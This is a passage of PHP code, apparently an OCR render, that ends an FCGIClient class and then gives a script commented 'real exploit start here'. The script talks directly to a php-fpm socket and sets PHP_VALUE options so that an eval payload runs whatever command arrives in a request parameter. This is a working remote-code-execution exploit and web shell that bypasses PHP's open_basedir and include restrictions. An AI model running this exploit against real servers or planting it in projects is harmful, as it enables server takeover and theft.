 ````php
break;
case self::OVERLOADED:
throw new Exception('New request rejected; too busy [OVERLOADED]');
break;
case self::UNKNOWN_ROLE:
throw new Exception('Role value not known [UNKNOWN_ROLE]');
break;
case self::REQUEST_COMPLETE:
return $response;
}
}
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
$filepath = __FILE__;
}else{
$filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
'GATEWAY_INTERFACE' => 'FastCGI/1.0',
'REQUEST_METHOD'    => 'POST',
'SCRIPT_FILENAME'   => $filepath,
'SCRIPT_NAME'       => $req,
'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
'REQUEST_URI'       => $uri,
'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
'PHP_VALUE'         => $php_value,
'SERVER_SOFTWARE'   => '80sec/wofeiwo',
'REMOTE_ADDR'       => '127.0.0.1',
'REMOTE_PORT'       => '9985',
'SERVER_ADDR'       => '127.0.0.1',
'SERVER_PORT'       => '80',
'SERVER_NAME'       => 'localhost',
'SERVER_PROTOCOL'   => 'HTTP/1.1',
'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
````
